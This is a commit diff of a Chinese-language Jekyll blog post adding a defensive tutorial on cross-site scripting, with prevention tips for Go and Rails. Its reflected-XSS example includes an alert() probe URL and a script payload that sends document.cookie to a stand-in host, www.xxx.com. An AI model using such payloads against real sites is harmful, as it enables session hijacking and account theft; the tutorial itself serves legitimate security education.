

Before and after one commit to pathbox/pathbox.github.io, a Jekyll site: the page built from _posts/2017-05-22-web-safe.md, in a window 1280 px wide and 1400 px high, scrolled down 3675 px. Shown: the whole window at 92% size, without its empty margins (0-1012 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; comment, search, counter and statistics services are not loaded; before the commit the page ends 4713 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
在Web application 中基本的安全防范小结 - XSS攻击

````diff
--- a/_posts/2017-05-22-web-safe.md
+++ b/_posts/2017-05-22-web-safe.md
@@ -82,6 +82,62 @@ r.ParseForm()
 
 这里建议，如果可以在controller 做验证，最好先做，再继续在model层做相关验证。通过两重的验证，基本可以保证数据的有效性。
 
+##### XXS攻击
+
+> 动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。
+XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。
+
+```
+XSS目前主要的手段和目的如下：
+
+盗用cookie，获取敏感信息。
+利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
+利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
+利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
+在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果
+```
+
+XSS的原理
+
+> Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因
+
+例子(来自　https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.3.md):
+
+接下来以反射性XSS举例说明XSS的过程：现在有一个网站，根据参数输出用户的名称，例如访问url：http://127.0.0.1/?name=astaxie，就会在浏览器输出如下信息：
+
+```
+hello astaxie
+
+如果我们传递这样的url：http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;,这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;，这样就可以把当前的cookie发送到指定的站点：www.xxx.com。你也许会说，这样的URL一看就有问题，怎么会有人点击？，是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息，然后就可以利用Websleuth之类的工具来检查是否能盗取那个用户的账户。
+
+```
+
+如何预防XSS
+
+不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。
+
+过滤特殊字符
+
+避免XSS的方法之一主要是将用户所提供的内容进行过滤，Go语言提供了HTML的过滤函数：
+
+text/template包下面的HTMLEscapeString、JSEscapeString等函数
+
+在Rails 开发中，如果要渲染有嫌疑的html字符串，使用`<sanitize>`方法继续过滤
+
+使用HTTP头指定类型
+
+```
+`w.Header().Set("Content-Type","text/javascript")`
+
+这样就可以让浏览器解析javascript代码，而不会是html输出。
+```
+
+XSS漏洞是相当有危害的，在开发Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这是现在行之有效的防止XSS的手段。
+
+
+
+
+
 
 
 
````
